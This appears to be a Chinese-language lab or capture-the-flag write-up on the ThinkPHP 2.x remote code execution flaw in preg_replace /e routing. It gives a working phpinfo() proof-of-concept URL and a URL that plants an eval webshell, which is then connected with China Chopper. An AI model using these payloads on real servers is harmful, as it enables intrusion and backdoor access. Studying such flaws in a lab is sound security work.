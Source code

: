 # ThinkPHP 2.X 任意代码执行

# 漏洞概述

在 ThinkPHP ThinkPHP 2.x 版本中，使用 preg_replace 的 /e 模式匹配路由：`$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));`

导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。

 ThinkPHP 3.0 版本因为 Lite 模式下没有修复该漏洞，也存在这个漏洞。所以先来看看`preg_replace`这个函数，这个函数是个替换函数，而且支持正则，使用方式如下：

`preg_replace('正则规则','替换字符','目标字符')`

这个函数的3个参数，结合起来的意思是：如果目标字符存在符合正则规则的字符，那么就替换为替换字符，如果此时正则规则中使用了`/e`这个修饰符，则存在代码执行漏洞。

下面是搜索到的关于`/e`的解释：

```
e 配合函数preg_replace()使用, 可以把匹配来的字符串当作正则表达式执行;  
/e 可执行模式，此为PHP专有参数，例如preg_replace函数。
```

## Write up

首先打开靶场

![1](.\1.png)

利用 POC 来验证, phpinfo() 成功执行。

```
/index.php?s=/index/index/xxx/${@phpinfo()}
```

![2](.\2.png)

然后写入一句话

`/index.php?s=/index/index/xxx/${${@eval($_POST[1])}}`

并用菜刀连接

![4](D:\BMH\write_up\ThinkPHP_2.X任意代码执行\4.png)

连接完成后去 tmp 临时文件下去查看 Flag

![5](D:\BMH\write_up\ThinkPHP_2.X任意代码执行\5.png)